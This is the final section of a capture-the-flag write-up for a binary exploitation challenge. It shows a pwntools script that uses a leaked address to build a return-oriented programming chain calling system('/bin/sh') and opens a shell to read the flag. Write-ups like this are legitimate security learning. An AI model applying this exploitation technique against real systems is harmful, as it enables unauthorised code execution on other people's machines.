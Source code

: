 Now, using the leaked address from part two we can build the rop chain and call `system("/bin/sh")` with this simple rop chain

Here's the updated pwntools script, only the last section for the payload is changed

```python
# ...
base_addr = int(addr, 16) - 0x001020c7
flag_function_addr = base_addr + 0x00101f18
bin_sh_addr = base_addr + 0x00103806
pop_rdi_addr = base_addr + 0x0010211e
system_addr = base_addr + 0x00102112

p.sendlineafter(b'Type 1 for yes or anything else for no:', b'n')
p.sendline(b'57005')
p.sendline(b'bubbles1')

# First we call pop rdi, which takes the bin/sh address from the stack and puts it in rdi
# then it returns to system
payload = padding + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(system_addr)

p.sendlineafter(b'You\'re admin! We can trust you! Give us your instruction!', payload)

p.interactive()
```

Running it gives a `/bin/sh` shell which we use to print the flag

![flag3](./img/flag3.png)

I really enjoyed this challenge, I hope to see pwn challenges again next year!